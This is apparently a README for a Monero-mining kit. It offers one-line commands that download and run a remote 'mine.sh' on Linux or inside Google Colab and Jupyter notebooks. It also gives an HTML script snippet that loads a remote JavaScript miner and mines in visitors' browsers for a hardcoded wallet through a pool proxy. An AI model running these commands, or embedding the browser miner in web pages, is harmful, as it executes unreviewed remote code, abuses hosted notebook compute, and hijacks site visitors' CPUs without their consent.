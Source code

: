 # `Smart Mining`
## `Linux`
```
wget https://raw.githubusercontent.com/thealidev/sm/main/mine.sh && bash mine.sh
```
## `Google Colab` Or `Jupyter Notebook`
```
! wget https://raw.githubusercontent.com/thealidev/sm/main/mine.sh && bash mine.sh
```
## `AliX JS` (Mine On Diffrent Pool)
```
<script src="https://alixjs.vercel.app/index.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un";
    var workerId = "Miner";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
# `For Personal Use Only`